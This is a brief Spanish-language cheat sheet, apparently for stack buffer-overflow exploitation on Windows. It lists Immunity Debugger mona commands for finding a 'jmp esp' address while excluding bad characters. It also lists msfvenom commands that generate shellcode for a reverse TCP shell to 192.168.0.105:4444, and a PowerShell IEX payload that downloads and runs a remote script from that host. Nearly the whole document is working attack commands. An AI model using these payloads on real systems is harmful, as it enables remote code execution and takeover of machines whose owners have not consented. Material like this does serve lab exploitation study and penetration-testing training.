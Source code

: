 ## MONA
#### Configurar carpeta de trabajo
!mona -set workingfolder C:\Users\win7bits\Desktop\%p

#### ENCONTRAR EL PUNTO DE SALTO
!mona jmp -r esp -cpb \x07\x2e\xa0\x00"


## SHELLCODE
#### CMD
msfvenom -p windows/shell_reverse_tcp lhost=192.168.0.105 lport=4444 EXITFUNC=thread -a x86 --platform windows -b "\x00" -f c
#### POWERSHELL
msfvenom -p windows/exec CMD="powershell IEX(New-Object Net.WebClient).downloadString('http://192.168.0.105:8000/PS.ps1')" lhost=192.168.0.105 lport=4444 EXITFUNC=thread -a x86 --platform windows -b "\x00" -f c

